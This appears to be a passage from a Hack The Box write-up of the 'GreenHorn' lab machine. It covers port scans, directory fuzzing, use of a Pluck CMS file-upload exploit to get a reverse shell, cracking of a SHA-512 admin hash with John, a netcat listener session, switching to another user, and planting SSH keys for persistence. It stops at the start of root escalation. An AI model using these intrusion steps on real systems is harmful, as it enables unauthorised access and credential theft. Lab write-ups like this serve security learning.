# Initial Enumeration

As usual we can start by checking all the running services over the TCP protocoll:

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOp+cK9ugCW282Gw6Rqe+Yz+5fOGcZzYi8cmlGmFdFAjI1347tnkKumDGK1qJnJ1hj68bmzOONz/x1CMeZjnKMw=
|   256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEZQbCc8u6r2CVboxEesTZTMmZnMuEidK9zNjkD2RGEv
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  ppp?    syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=3e8f05d7e3046015; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=1lD5nBubvJpc5jXtiLUAazLDe2s6MTcyMjE2NjQ4ODQ2NDI2ODAxOQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 28 Jul 2024 11:34:48 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=a84563a22ca70857; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=dEBs4XWyaGB4kZsCRJ9aqR2YlvE6MTcyMjE2NjQ5MzY0NTkwMTIyOQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 28 Jul 2024 11:34:53 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=7/28%Time=66A62CD6%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,2A88,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=3e8f05d7e3046015;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=1lD5nBubvJpc5jXtiLUAazLDe2s6MTcyMjE2NjQ4ODQ2NDI2ODAxOQ;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Sun,\x2028\x20Jul\x202024\x2011:34:48\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x
SF:20rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR
SF:3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6
SF:Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmh
SF:vcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLC
SF:JzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvY
SF:X")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,197,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Control:\x20max-age=0,
SF:\x20private,\x20must-revalidate,\x20no-transform\r\nSet-Cookie:\x20i_li
SF:ke_gitea=a84563a22ca70857;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nS
SF:et-Cookie:\x20_csrf=dEBs4XWyaGB4kZsCRJ9aqR2YlvE6MTcyMjE2NjQ5MzY0NTkwMTI
SF:yOQ;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Fra
SF:me-Options:\x20SAMEORIGIN\r\nDate:\x20Sun,\x2028\x20Jul\x202024\x2011:3
SF:4:53\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\
SF:.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=
SF:utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/28%OT=22%CT=%CU=41589%PV=Y%DS=2%DC=T%G=N%TM=66A62D31%P=x86_64-pc-linux-gnu)
SEQ(SP=109%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M550ST11NW7%O2=M550ST11NW7%O3=M550NNT11NW7%O4=M550ST11NW7%O5=M550ST11NW7%O6=M550ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M550NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)
```

Immediately we can understand that the back-end is driven by Linux(see the port 22/TCP) but I see as well a HTTP and a flask application over port TCP/3000?

Before moving I will run the check over the UDP services as well.

&nbsp;

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Greenhorn]
└─# nmap -sU -F 10.10.11.25 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-28 13:41 CEST
Stats: 0:01:41 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 99.99% done; ETC: 13:42 (0:00:00 remaining)
Nmap scan report for 10.10.11.25
Host is up (0.040s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc

Nmap done: 1 IP address (1 host up) scanned in 102.20 seconds
```

# HTTP

The initial scan identified that the back-end is running over the FQDN at `greenhorn.htb` so let's add that to our local hosts file and move on.

If I surf to the website I see immetiately a possible trace of LFI?




Before doing anything I will engage Dirseach and check for possible hidden files/folders on the website.

```
13:47:22] Starting: 
[13:47:25] 200 -   93B  - /+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
[13:47:25] 200 -   93B  - /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
[13:47:28] 404 -  564B  - /.gif
[13:47:28] 404 -  564B  - /.ico
[13:47:29] 404 -  564B  - /.jpeg
[13:47:29] 404 -  564B  - /.jpg
[13:47:30] 404 -  564B  - /.png
[13:47:35] 404 -  564B  - /adm/style/admin.css
[13:47:35] 200 -    4KB - /admin.php
[13:47:38] 404 -  564B  - /admin_my_avatar.png
[13:47:45] 404 -  564B  - /bundles/kibana.style.css
[13:47:49] 301 -  178B  - /data  ->  http://greenhorn.htb/data/
[13:47:49] 200 -   48B  - /data/
[13:47:50] 301 -  178B  - /docs  ->  http://greenhorn.htb/docs/
[13:47:50] 200 -   93B  - /docpicker/common_proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[13:47:50] 403 -  564B  - /docs/
[13:47:52] 200 -   93B  - /faces/javax.faces.resource/web.xml?ln=../WEB-INF
[13:47:52] 200 -   93B  - /faces/javax.faces.resource/web.xml?ln=..\\WEB-INF
[13:47:52] 404 -  564B  - /favicon.ico
[13:47:53] 301 -  178B  - /files  ->  http://greenhorn.htb/files/
[13:47:53] 403 -  564B  - /files/
[13:47:55] 404 -  564B  - /IdentityGuardSelfService/images/favicon.ico
[13:47:55] 301 -  178B  - /images  ->  http://greenhorn.htb/images/
[13:47:55] 403 -  564B  - /images/
[13:47:56] 200 -    4KB - /install.php
[13:47:57] 200 -    4KB - /install.php?profile=default
[13:47:57] 200 -   93B  - /jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system:type=ServerInfo
[13:47:59] 200 -    1KB - /login.php
[13:47:59] 404 -  564B  - /logo.gif
[13:48:00] 200 -   93B  - /manager/jmxproxy/?invoke=Catalina%3Atype%3DService&op=findConnectors&ps=
[13:48:00] 200 -   93B  - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage
[13:48:08] 200 -   93B  - /plugins/servlet/gadgets/makeRequest?url=https://google.com
[13:48:09] 200 -   93B  - /proxy.stream?origin=https://google.com
[13:48:10] 200 -    2KB - /README.md
[13:48:10] 200 -   93B  - /remote/fgt_lang?lang=/../../../../////////////////////////bin/sslvpnd
[13:48:10] 200 -   93B  - /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
[13:48:10] 404 -  564B  - /resources/.arch-internal-preview.css
[13:48:10] 200 -   47B  - /robots.txt
[13:48:13] 404 -  564B  - /skin1_admin.css
[13:48:14] 404 -  891B  - /solr/admin/file/?file=solrconfig.xml
[13:48:24] 200 -   93B  - /wps/common_proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[13:48:24] 200 -   93B  - /wps/myproxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[13:48:24] 200 -   93B  - /wps/cmis_proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[13:48:24] 200 -   93B  - /wps/contenthandler/!ut/p/digest!8skKFbWr_TwcZcvoc9Dn3g/?uri=http://www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[13:48:24] 200 -   93B  - /wps/proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com

Task Completed
```

Seems like we have some juicy stuff hehe... But what about hidden subdomains as well?



Nothing so far so let's go back to the files discovered by the webdirectories fuzzing, and seems like the LFI is not possible?



But on the discovered files the admin.php seems redirecting us to the backend system used:



Now googling that specific version seems showing the presence of a RCE via some kind of php file upload? https://www.exploit-db.com/exploits/51592

The idea is to adapt the poc to login into the victim and upload a zip archive that holds a php reverse shell.

So we need to adapt the poc to point to the right FQDN:



And adapt the shell.php to reconnect back to our listener:



Lastly should be enough to zip archive the php revshell. Now calling the exploit results in a verbose error:



But we eventually get a working rce!



&nbsp;

# Road to User.txt

Now before attempting to get my user I will look around for useful information and seems like I can find the hard-coded password hash used to login into the portal?

```
www-data@greenhorn:~/html/pluck/data/settings$ cat pass.php
cat pass.php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>www-data@greenhorn:~/html/pluck/data/settings$
```

Now the shell is a bit unstable as it get's killed every 5 minutes or so. I will look around if I can get to users folder and I see 2 other low-priv users?



Now git is not reachange by www-data but junior but it isn't reachable?

```
www-data@greenhorn:/home/junior$ ls -al
ls -al
total 88
drwxr-xr-x 6 junior junior  4096 Jul 27 17:10 .
drwxr-xr-x 4 root   root    4096 Jun 20 06:36 ..
lrwxrwxrwx 1 junior junior     9 Jun 11 14:38 .bash_history -> /dev/null
drwx------ 2 junior junior  4096 Jun 20 06:36 .cache
drwx------ 3 junior junior  4096 Jul 27 16:56 .gnupg
drwxrwxr-x 3 junior junior  4096 Jul 27 16:33 .local
drwx------ 2 junior junior  4096 Jul 27 16:33 .ssh
-rw-r----- 1 root   junior    33 Jul 25 20:54 user.txt
-rw-rw-r-- 1 junior junior 61367 Jul 27 16:26 using_openvas.pdf
www-data@greenhorn:/home/junior$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@greenhorn:/home/junior$ cd .ssh
cd .ssh
bash: cd: .ssh: Permission denied
www-data@greenhorn:/home/junior$ cd
```

Now to backup my job I decided to upload another php webshell on the root folder:



This should ensure me to get a better stable shell as it is bypassing the other webshell:



Now here I totally forgot to check the port 3000 and apparently it was about a self hosted git server?



This is used by the junior user, nice we can use that somehow?

We can see from the login functions that the password might be SHA-512 hashed?



Knowing this now it should be easily crackable via JohntheRipper?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Greenhorn]
└─# cat pass.hash 
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Greenhorn]
└─# john pass.hash --format=raw-sha512 --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=16
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyou1        (?)     
1g 0:00:00:00 DONE (2024-07-28 14:40) 16.66g/s 273066p/s 273066c/s 273066C/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now can this password be used for example by the user junior? Indeed we can asn we can get another flag!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Greenhorn]
└─# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.25] 48932
bash: cannot set terminal process group (1097): Inappropriate ioctl for device
bash: no job control in this shell
www-data@greenhorn:~/html/pluck$ $ script /dev/null -c bash
$ script /dev/null -c bash
bash: $: command not found
www-data@greenhorn:~/html/pluck$ script /dev/null -qc /bin/bash
script /dev/null -qc /bin/bash
www-data@greenhorn:~/html/pluck$ su junior
su junior
Password: iloveyou1

junior@greenhorn:/var/www/html/pluck$ cd /home/junior
cd /home/junior
junior@greenhorn:~$ ls -al
ls -al
total 88
drwxr-xr-x 6 junior junior  4096 Jul 27 17:10 .
drwxr-xr-x 4 root   root    4096 Jun 20 06:36 ..
lrwxrwxrwx 1 junior junior     9 Jun 11 14:38 .bash_history -> /dev/null
drwx------ 2 junior junior  4096 Jun 20 06:36 .cache
drwx------ 3 junior junior  4096 Jul 27 16:56 .gnupg
drwxrwxr-x 3 junior junior  4096 Jul 27 16:33 .local
drwx------ 2 junior junior  4096 Jul 27 16:33 .ssh
-rw-r----- 1 root   junior    33 Jul 25 20:54 user.txt
-rw-rw-r-- 1 junior junior 61367 Jul 27 16:26 using_openvas.pdf
junior@greenhorn:~$ cat user.txt
cat user.txt
a0f05b099469220bb2c072e8fe3827e8
junior@greenhorn:~$
```

&nbsp;

# Road to Root.txt

Now I need to gain sort of persistence so i will check if Junior have some ssh keys?



Seems like no so we can add our ssh keys to the machine.



&nbsp;And now I can gain a better shell directly via SSH. Now Junior can't run any commands as sudo so I will try to download that pdf I see in his folder:

